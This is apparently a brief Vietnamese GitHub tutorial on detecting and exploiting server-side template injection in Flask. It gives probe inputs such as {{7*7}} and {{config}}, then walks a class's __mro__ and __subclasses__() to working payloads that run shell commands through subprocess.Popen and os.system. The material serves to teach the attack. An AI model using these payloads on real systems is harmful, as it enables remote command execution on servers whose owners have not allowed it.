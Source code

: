 ## nhận biết ssti flask
{{7*7}} => output 49
{{config}}
{{self}}
{{request}}
# dir() function:
khi hàm không có tham số, nó sẽ trả về một danh sách các biến , phương thức và cá kiểu được xác định trong phạm vi hiện tại. khi nhận tham số, nó sẽ trả về một danh sách các thuộc tính và phương thức tham số.
<img src="./Pics/dir.png">
# MRO
<img src="./Pics/mro.png">
kiểu như xác định các lớp được kế thừa, sau đó sử dụng __subclasses__() để lấy ra tất cả các đối tượng có thể lấy ở thời điểm hiện tại
<img src="./Pics/subclass.png">

# exploit
kết hợp những điều trên ta được
## sử dụng os._wrap_close hoặc subprocess.Popen để get shell
```
Test1.__mro__[2].__subclasses__()[184]('id',shell=True,stdout=-1).communicate()[0].strip()
Test1.__mro__[2].__subclasses__()[117].__init__.__globals__['system']('id')
```
<img src="./Pics/exploit.png">

